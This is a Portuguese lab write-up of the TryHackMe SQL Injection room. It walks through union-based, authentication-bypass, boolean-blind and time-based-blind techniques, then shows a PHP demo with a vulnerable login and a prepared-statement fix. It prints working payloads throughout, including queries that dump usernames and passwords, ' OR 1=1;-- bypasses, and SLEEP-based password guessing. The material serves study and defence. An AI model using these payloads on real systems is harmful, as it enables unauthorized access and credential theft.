

Este relatório apresenta a resolução dos labs da Room SQL Injection do TryHackMe, parte do módulo de Pentest em aplicações Web. O objetivo é explorar diferentes técnicas de SQL Injection, compreender como vulnerabilidades podem ser exploradas para manipular consultas SQL e acessar informações sensíveis, e reforçar a importância de práticas seguras no desenvolvimento de aplicações web.
Os labs abordam desde ataques In-Band até Blind SQLi, incluindo autenticação bypass, boolean-based e time-based, proporcionando uma visão prática e detalhada das principais técnicas utilizadas por atacantes.
O objetivo deste lab é identificar e explorar vulnerabilidades de SQL Injection baseadas em erros para acessar informações do banco de dados, utilizando a técnica de Union-based SQL Injection.
Testando 1 UNION SELECT 1,2 resulta em erro, mas 1 UNION SELECT 1,2,3 é sucesso.


Manipulando o resultado, é possível descobrir o nome do banco de dados:
0 UNION SELECT 1,2,database()

Listando tabelas e colunas:
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

Sabendo que existe uma tabela chamada `staff_users` pode-se descobrir as colunas da tabela com:
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

Sabendo as colunas, é possivel obter as informações de username e password com:
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

Neste lab, o objetivo é explorar uma vulnerabilidade de SQL Injection para driblar autenticações, manipulando consultas SQL para sempre retornar uma condição verdadeira.

Inicialmente, pode-se colocar `%username%` e `%password%` nos campos

Ao clicar em Login, exibe ‘no result found’.

Utilizando ' OR 1=1;-- no campo de senha, a condição se torna logicamente sempre verdadeira, permitindo o bypass da autenticação.

Neste lab, exploramos Blind SQL Injection para descobrir nomes de banco, tabelas, colunas e dados sensíveis, manipulando a URL e analisando respostas booleanas.
Na tela inicial, podemos fazer os testes no endpoint /checkuser?username=admin.

Testando com admin123' UNION SELECT 1,2,3;-- descobrimos que a quantidade de colunas é 3.
Podemos testar com admin123' UNION SELECT 1,2,3 where database() like '%';-- que retorna positivo, pois ‘%’ é compatível com qualquer coisa.

Para avançar, usamos admin123' UNION SELECT 1,2,3 where database() like 's%';-- para verificar se a primeira letra do nome da tabela é ‘s’. O nome é sqli_three.

Podemos colocar qualquer letra após o ‘s’ para verificar o erro:

Sabendo o nome da tabela, usamos admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';-- para verificar a tabela de usuários.

Para encontrar nome de coluna:
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

Substituindo 'a%' por 'password' o resultado é positivo.

Agora sabemos que existe a tabela users e a coluna password. Podemos usar admin123' UNION SELECT 1,2,3 from users where username like 'a% e o resultado é positivo, testando com admin continua positivo.

Podemos testar se a senha é admin com admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%, mas o resultado é negativo. A própria room diz que a senha é 3845, podemos verificar com admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3845.

Neste lab, o objetivo é explorar vulnerabilidades de Time-Based Blind SQL Injection, utilizando atrasos no tempo de resposta para inferir informações do banco de dados.

Começamos os testes com admin123' UNION SELECT SLEEP(5);--.

Usando referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';-- temos tempo muito curto.

Mas com referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';-- o tempo é maior, resultado positivo.

Com tentativa e erro, pode-se descobrir que o nome da database é sqli_four.

Podemos confirmar tabela users e coluna username com:
referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema = 'sqli_four' and table_name='users' and column_name='username';--

Com column_name='password' o resultado é o mesmo.
Para testar o usuário admin:
referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin';--

Usando tentativa e erro, pode-se ir fazendo testes para descobrir a senha com referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' and password like '4%';-- até completar.


Para ilustrar na prática como uma aplicação pode ser vulnerável a SQL Injection e como corrigir esse problema, desenvolvi um projeto simples em PHP e MySQL. O projeto contém duas versões de login: uma vulnerável e outra corrigida utilizando prepared statements.
O código-fonte do projeto está disponível publicamente e pode ser utilizado para estudo, testes e aprimoramento de habilidades em segurança da informação: aqui
Como funciona o ataque: ao inserir admin' -- no campo de usuário da página vulnerável, o atacante consegue acessar o sistema sem a senha correta, pois o restante da consulta SQL é ignorado.
Como funciona a defesa: na página corrigida, o mesmo ataque não funciona, pois os dados do usuário são tratados separadamente da consulta SQL.
Este projeto foi criado para fins educacionais e demonstra como implementar boas práticas de segurança em aplicações web.
SQL Injection é uma das vulnerabilidades mais comuns em aplicações web, mas pode ser evitada com boas práticas como o uso de prepared statements e validação adequada dos dados de entrada.
O conhecimento prático dessas técnicas é fundamental para profissionais de segurança, permitindo identificar, explorar e mitigar vulnerabilidades de SQL Injection em ambientes reais.